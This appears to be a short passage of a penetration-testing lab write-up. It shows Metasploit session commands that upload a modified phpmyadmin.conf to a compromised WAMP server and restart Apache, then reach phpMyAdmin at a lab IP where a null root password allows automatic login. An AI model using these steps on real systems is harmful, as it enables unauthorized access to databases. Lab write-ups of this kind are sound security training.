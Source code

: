 ![phpmyadmin.conf](4-exploitationassets/image-20230424125503330.png)

```bash
# In the MSFconsole
upload phpmyadmin.conf

# Apache service must be restarted
shell
net stop wampapache
net start wampapache
```

- Access phpMyAdmin
  - `http://10.2.26.45:8585/phpmyadmin/`
  - it automatically logs in since the `root` password is `null`

